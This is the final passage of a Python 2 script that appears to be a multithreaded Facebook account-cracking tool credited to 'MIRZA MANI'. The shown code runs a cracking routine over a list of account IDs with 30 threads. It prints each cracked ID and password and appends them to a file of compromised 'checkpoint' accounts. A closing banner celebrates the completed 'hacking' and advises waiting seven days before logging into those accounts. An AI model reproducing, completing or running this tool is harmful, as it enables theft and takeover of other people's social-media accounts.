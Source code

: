 				                                                                                                   print '\x1b[1;96m[•⚔•] \x1b[1;96mID \x1b[1;96m      ✯ \x1b[1;97m' + user
				                                                                                                   print '\x1b[1;96m[•⚔•] \x1b[1;96mPassword \x1b[1;96m✯ \x1b[1;97m' + pass9 + '\n'
				                                                                                                   cek = open("out/super_cp.txt", "a")
				                                                                                                   cek.write("ID:" +user+ " Pw:" +pass9+"\n")
				                                                                                                   cek.close()
				                                                                                                   cekpoint.append(user+pass9)		
											                                       
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;92mSmartMirza\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
	print "  \033[1;92m«---•◈•---Developed By MIRZA MANI--•◈•---»" #SMART:MIRZA
	print '\033[1;96m✅HACKING HO GAI PURI AGLI WARI LIKHNA A↩(python2 mani3.py)↩\033[1;97m....'
	print"\033[1;92mTotal OK/\x1b[1;97mCP \033[1;93m: \033[1;92m"+str(len(oks))+"\033[1;96m/\033[1;96m"+str(len(cekpoint))
	print """
  HO GIA TU MANI KA FAN
  
       acha hun  CP ali idzz 7 din baad login kree
•\033[1;97m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.
: \033[1;92m ....MIRZA MANI Creations....... \033[1;97m :
•\033[1;97m◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•.' 
                Facebook
              \033[1;92m imran87mi"""
	
	raw_input("\n\033[1;97m[\033[1;92mBack\033[1;97m]")
	menu()

if __name__ == '__main__':
	login()

